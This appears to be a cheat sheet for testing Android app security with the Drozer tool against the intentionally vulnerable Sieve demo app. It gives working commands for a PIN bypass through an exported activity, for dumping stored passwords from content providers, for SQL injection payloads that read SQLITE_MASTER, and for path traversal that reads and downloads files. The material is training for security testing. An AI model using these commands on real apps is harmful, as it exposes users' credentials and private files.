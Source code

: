 ### 1. Overview

If `android:exported="true"` → any app/component can invoke or call it.

### 2. List All Installed Packages

```
run app.package.list
```
![image](https://github.com/user-attachments/assets/4d0891fb-07ef-4241-83eb-5fae236594cd)


### 3. Find a Particular App Package

```
run app.package.list -f <app_name>
run app.package.list -f sieve
```
![image](https://github.com/user-attachments/assets/2e08589e-2bb3-418b-b816-ff5f9303932f)


### 4. Get Information About the Application/Package

```
run app.package.info -a <package_name>
run app.package.info -a com.mwr.example.sieve
```
![image](https://github.com/user-attachments/assets/0e2f5401-f5f5-4ecf-b24f-ca36d39a049e)


### 5. List Application Components / Attack Surface

💡 Find components with `android:exported="true"` — Drozer does this automatically.

```
run app.package.attacksurface <app-package-name>
run app.package.attacksurface com.mwr.example.sieve
```
![image](https://github.com/user-attachments/assets/00c5fbcc-8aba-4099-9bda-bf1a45d41ade)


### 6. Explore Exported Activities

```
run app.activity.info -a <app-package-name>
run app.activity.info -a com.mwr.example.sieve
```
![image](https://github.com/user-attachments/assets/d22f3286-d148-4b56-9bac-c865ff87c360)


### 7. Direct Call an Activity / Activity Bypass

```
run app.activity.start --component <app-package-name> <activity-name>
run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```
![image](https://github.com/user-attachments/assets/205856f0-f3b3-4946-950e-75dfa2b06835)


This calls the activity `com.mwr.example.sieve.PWList` directly, bypassing any PIN — because it has `android:exported="true"`.

### 8. Explore Exported Content Providers

💡 **Content Providers:** Used for interaction between app components and for fetching data (`content://`).

Fetch details:

```
run app.provider.info -a <app-package-name>
run app.provider.info -a com.mwr.example.sieve
```
![image](https://github.com/user-attachments/assets/04c2259c-9713-4aa6-80a8-ccb0470ac87e)


### 9. Find Content URIs and Query Them

```
run scanner.provider.finduris -a <app-package-name>
run scanner.provider.finduris -a com.mwr.example.sieve
```
![image](https://github.com/user-attachments/assets/fbd11276-e686-47af-9873-e3b3f65ecda0)


Query example:

```
run app.provider.query <content-provider-URI>
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords
```
![image](https://github.com/user-attachments/assets/15ecb13d-faa8-4128-aaa3-a25642d29b89)


This retrieves username, email, and base64 encoded passwords.

Query another URI:

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
```
![image](https://github.com/user-attachments/assets/9a74ab61-3f78-4718-9277-8c0bce4ae6f9)


### 10. Test SQL Injection through Content Providers

💡 **Projection:** Columns | **Selection:** Rows

* Test projection:

  ```
  run app.provider.query <content-provider-URI> --projection "'"
  run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords --projection "'"
  ```
  ![image](https://github.com/user-attachments/assets/d30bead9-ae58-4f25-aef7-3297c57da791)


* Test selection:

  ```
  run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords --selection "'"
  ```
  ![image](https://github.com/user-attachments/assets/5a6eaab7-7c23-47ca-a293-58bbd3cb0fcf)


Errors indicate SQL injection is possible.

Retrieve data using `SQLITE_MASTER`:

```
run app.provider.query <content-provider-URI> --projection "* from SQLITE_MASTER;"
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords --projection "* from SQLITE_MASTER;"
```
![image](https://github.com/user-attachments/assets/a1422f87-dc32-4eb3-870b-d656646664fb)

Retrieve only tables:

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords --projection "* from SQLITE_MASTER WHERE type='table';"
```
![image](https://github.com/user-attachments/assets/8cfbc228-168b-431e-9a1c-d6ef2275c3ad)



### 11. Path Traversal

💡 Read internal files with Path Traversal.

Find Path Traversal vulnerability:

```
run scanner.provider.traversal -a <app-package-name>
run scanner.provider.traversal -a com.mwr.example.sieve
```

Read vulnerable file:

```
run app.provider.read content://<vulnerable-provider>/etc/hosts
run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
```
![image](https://github.com/user-attachments/assets/392338a2-b248-492a-ae5e-42bc2d1b34b8)


### 12. Download Data through Traversal

Download `/etc/hosts` to local machine:

```
run app.provider.download <vulnerable-file-path> <path-in-local-machine>
run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/etc/hosts /
```
![image](https://github.com/user-attachments/assets/da9b4baa-d952-436d-9110-b6ca5c28ea8c)


